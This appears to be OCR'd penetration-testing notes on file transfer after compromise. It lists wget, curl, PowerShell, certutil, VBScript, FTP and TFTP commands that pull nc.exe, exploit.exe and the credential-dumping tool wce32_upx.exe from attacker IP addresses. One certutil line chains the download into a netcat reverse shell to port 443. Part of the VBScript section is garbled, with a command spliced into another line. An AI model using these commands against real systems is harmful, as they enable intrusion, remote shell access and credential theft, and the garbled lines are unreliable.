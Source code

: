 Tools:

> $ Linux & Windows \( Newer Windows versions only \)  
> ▪ wget [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -O nc.exe  
> ▪ curl [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -o nc.exe  
> $ Windows \( Should work on most Windows versions\)  
> ▪powershell \(New-Object System.Net.WebClient\).DownloadFile\("[https://10.10.10.144/test.txt](https://10.10.10.144/test.txt)", "test.txt"\)  
> ▪net use Z: \\computer\_name\share\_name //Mount smb share  
> ▪ &gt; $pass= "guest" \| ConvertTo-SecureString -AsPlainText -Force $cred = New-Object System.Management.Automation.PsCredential\('guest', &gt; $pass\)  
> New-PSDrive -name guest -root \\10.10.15.53\share -Credential &gt; $cred -PSProvider "filesystem"  
> ▪certutil.exe -urlcache -split -f "[http://10.11.0.106:8000/nc.exe](http://10.11.0.106:8000/nc.exe)" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe  
> ▪VBscript  
> → echo strUrl = WScript.Arguments.Item\(0\) &gt; wget.vbs  
> echo StrFile = WScript.Arguments.Item\(1\) &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 &gt;&gt; wget.vbs  
> echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs  
> echo Err.Clear &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set http = CreateObject\("WinHttp.WinHttpRequest.5.1"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("WinHttp.WinHttpRequest"\) &gt;&gt; wget.vbs  
> echcscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upex.exe If http Is Nothing Then Set http = CreateObject\("MSXML2.ServerXMLHTTP"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("Microsoft.XMLHTTP"\) &gt;&gt; wget.vbs  
> echo http.Open "GET", strURL, False &gt;&gt; wget.vbs  
> echo http.Send &gt;&gt; wget.vbs  
> echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set fs = CreateObject\("Scripting.FileSystemObject"\) &gt;&gt; wget.vbs  
> echo Set ts = fs.CreateTextFile\(StrFile, True\) &gt;&gt; wget.vbs  
> echo strData = "" &gt;&gt; wget.vbs  
> echo strBuffer = "" &gt;&gt; wget.vbs  
> echo For lngCounter = 0 to UBound\(varByteArray\) &gt;&gt; wget.vbs  
> echo ts.Write Chr\(255 And Ascb\(Midb\(varByteArray,lngCounter + 1, 1\)\)\) &gt;&gt; wget.vbs  
> echo Next &gt;&gt; wget.vbs  
> echo ts.Close &gt;&gt; wget.vbs  
> → cscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upx.exe  
> ▪ FTP Non interactive mode  
> → ftp -A 10.11.0.106  
> → binary  
> → GET nc.exe  
> → bye  
> ▪ TFTP  
> → tftp -i 10.11.0.106 GET exploit.exe
